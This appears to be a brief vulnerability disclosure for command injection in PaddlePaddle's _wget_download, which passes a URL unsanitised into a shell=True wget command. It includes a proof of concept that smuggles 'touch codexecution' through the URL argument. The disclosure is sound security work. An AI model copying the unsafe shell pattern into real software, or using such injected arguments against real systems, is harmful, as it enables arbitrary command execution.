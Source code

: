 ## Vulnerability Code

### Command injection in paddle.utils.download._wget_download
>Command injection in paddle.utils.download._wget_download in paddlepaddle/paddle -> https://huntr.com/bounties/a569c64b-1e2b-4bed-a19f-47fd5a3da453/
```
def _wget_download(url, fullname):
    # using wget to download url
    tmp_fullname = fullname + "_tmp"
    # –user-agent
    command = f'wget -O {tmp_fullname} -t {DOWNLOAD_RETRY_LIMIT} {url}'
    subprc = subprocess.Popen(
        command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE
    )
```
>poc
```
from paddle import utils
utils.download._wget_download("aa; touch codexecution", "bb")
```
